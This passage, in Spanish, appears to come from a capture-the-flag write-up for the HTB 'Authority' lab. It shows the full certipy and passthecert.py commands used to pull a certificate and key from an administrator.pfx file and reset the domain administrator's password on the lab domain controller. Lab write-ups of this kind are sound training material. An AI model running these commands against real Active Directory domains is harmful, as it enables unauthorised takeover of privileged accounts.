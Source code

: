 El `certify` ya lo podemos eliminar de nuestra maquina atacante o dejarlo

```python
sudo apt remove certipy-ad
```

## PassTheCert

Luego de generar nuestro archivo `administrator.pfx` lo que haremos sera generar un `user.crt` y un `auser.key` para hacer uso de `passthecert.py`.

- [Repositorio y guía de como usarlo](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)

Generamos el `user.crt`

```python
❯ certipy cert -pfx administrator.pfx -nokey -out user.crt
```

![20240309163800.png](20240309163800.png)

Generamos el `user.key`

```python
❯ certipy cert -pfx administrator.pfx -nocert -out user.key
```

![20240309163818.png](20240309163818.png)

Una vez generadas lo que haremos será usarlas para hacer un `passthecert` y ejecutando comandos o cambiando la contraseña al usuario que nosotros le indicamos con el parámetro `-action modify_user -target administrator -new-pass`

```python
❯ python3 /home/b0ysie7e/seven/herramientas/activeDirectory/PassTheCert/Python/passthecert.py -crt user.crt -key user.key -dc-ip 10.10.11.222 -domain authority.htb -action modify_user -target administrator -new-pass
```

![20240309165554.png](20240309165554.png)
